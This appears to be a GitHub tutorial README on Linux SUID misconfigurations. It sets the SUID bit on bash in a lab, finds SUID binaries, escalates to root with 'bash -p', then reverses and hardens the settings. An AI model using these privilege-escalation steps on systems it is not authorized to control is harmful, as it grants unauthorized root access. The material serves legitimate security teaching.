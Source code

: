 # ⚠️ Linux Security: SUID Exploitation & Hardening

This repository demonstrates **SUID misconfigurations** in Linux, focusing on **privilege escalation techniques** and **security hardening** strategies. 🚀

---

## 🎯 Project Scope
This guide will help you:
- 🔍 **Identify SUID vulnerabilities**
- 🛠 **Exploit misconfigured SUID binaries for privilege escalation**
- 🔐 **Implement security measures to mitigate risks**

---

## 🔥 Step 1: Setup - Creating a Vulnerable SUID Environment

### 🛑 **1️⃣ Set SUID Bit on Bash (Risky!)**
```bash
# Grant SUID to Bash (VERY DANGEROUS)
┌──(kali㉿kali)-[~]
└─$ sudo chmod u+s /bin/bash

# Verify SUID is set
┌──(kali㉿kali)-[~]
└─$ ls -l /bin/bash  
-rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### 📝 **2️⃣ Create a Root-Owned SUID Script**
```bash
# Create a script with root ownership
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/root_script.sh

# Paste the following inside nano:
#!/bin/bash
echo "Running as: $(whoami)"
id

# Save & exit, then make it executable
┌──(kali㉿kali)-[~]
└─$ sudo chmod 4755 /root/root_script.sh

# Verify SUID permissions
┌──(kali㉿kali)-[~]
└─$ ls -l /root/root_script.sh     
-rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

---

## 🚀 Step 2: Exploiting SUID to Gain Root Access

### 🔎 **3️⃣ Finding Vulnerable SUID Binaries**
```bash
# Search for all SUID binaries
┌──(kali㉿kali)-[~]
└─$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/chromium/chrome-sandbox
/usr/lib/openssh/ssh-keysign
... (more results)
```

### 🛠 **4️⃣ Exploit SUID on Bash to Escalate Privileges**
```bash
# Run Bash with SUID privilege
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p

# Verify if we have root access
bash-5.2# whoami
root

# Execute root-owned script
bash-5.2# /root/root_script.sh
Running as: root
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🔐 Step 3: Mitigating SUID Vulnerabilities

### ❌ **5️⃣ Remove SUID from Bash**
```bash
# Remove the SUID bit from Bash
bash-5.2# sudo chmod -s /bin/bash

# Verify SUID is removed
bash-5.2# ls -l /bin/bash
-rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### 🔒 **6️⃣ Secure SUID Scripts**
```bash
# Restrict access to root-owned scripts
bash-5.2# sudo chown root:root /root/root_script.sh
bash-5.2# sudo chmod 700 /root/root_script.sh

# Verify secure permissions
bash-5.2# ls -l /root/root_script.sh
-rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

---

## 📌 Task 4 - Summary Table

| **Step**  | **Action** | **Command/Details** |
|-----------|--------------------------------|-----------------------------|
| 🛠 **Setup** | Set SUID on Bash (insecure) | `sudo chmod u+s /bin/bash` |
| | Create a root-owned script | `nano /root/root_script.sh` |
| | Set SUID on the script | `sudo chmod 4755 /root/root_script.sh` |
| | Verify permissions | `ls -l /bin/bash /root/root_script.sh` |
| 🚀 **Exploitation** | Find SUID binaries | `find / -perm -4000 2>/dev/null` |
| | Exploit SUID Bash | `/bin/bash -p` |
| | Verify root access | `whoami` |
| | Execute root-owned script | `/root/root_script.sh` |
| 🔐 **Mitigation** | Remove SUID from Bash | `sudo chmod -s /bin/bash` |
| | Restrict script execution to root | `sudo chmod 700 /root/root_script.sh` |
| | Verify permissions after mitigation | `ls -l /bin/bash /root/root_script.sh` |

---

### 🛡️ **Final Thoughts**
✅ **Understanding SUID vulnerabilities is crucial for both ethical hacking and system security. Always audit your system to prevent privilege escalation attacks!**

🚀 Stay Secure! 🔒


--------------------------------------------THE END ----------------------------------------------
